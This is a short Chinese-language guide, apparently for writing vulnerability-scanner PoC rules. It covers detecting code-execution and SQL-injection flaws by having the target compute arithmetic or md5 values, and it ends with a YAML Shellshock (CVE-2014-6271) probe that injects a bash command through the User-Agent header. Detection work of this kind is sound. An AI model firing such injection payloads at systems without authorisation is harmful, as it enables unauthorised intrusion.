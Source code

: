 # 代码执行漏洞的检出

各种 rce 通常都可以直接使用整数相乘相加或者md5的方法，然后再查找返回结果，这样只有在代码真正被执行的时候才会得到预期的结果。

不要直接 echo 一些简单的字符串，容易造成误报。

1. 如果是测试命令执行，目前推荐使用 `expr num1 + num2`，主要因为星号在 shell 中可能有潜在的转义问题，执行其他的命令可能返回值格式并不方便匹配。
1. 如果是 php 等代码执行，可以使用
    1. print(数字 * 数字)
    1. print(md5(随机值))
    1. printf("随机值%%随机值") 实际输出会少一个百分号
1. sql 注入也可以使用 `union select md5(随机值)` 的原理
1. 考虑到有些32位系统整数上限可能低于`2^^31`和数字过短可能误报，目前要求乘法两个数字的取值范围必须在 `40000` 和 `44800` 之间，加法两个数字必须在 `800000000` 和 `1000000000` 之间。

一个例子：

```yaml
name: poc-yaml-bash-cve-2014-6271
set:
r1: randomInt(800000000, 1000000000)
r2: randomInt(800000000, 1000000000)
rules:
- method: GET
    headers:
    User-Agent: "() { :; }; echo; echo; /bin/bash -c 'expr {{r1}} + {{r2}}'"
    expression: response.body_string.contains(string(r1 + r2))
detail:
author: example(https://github.com/example)
links:
    - https://github.com/opsxcq/exploit-CVE-2014-6271
```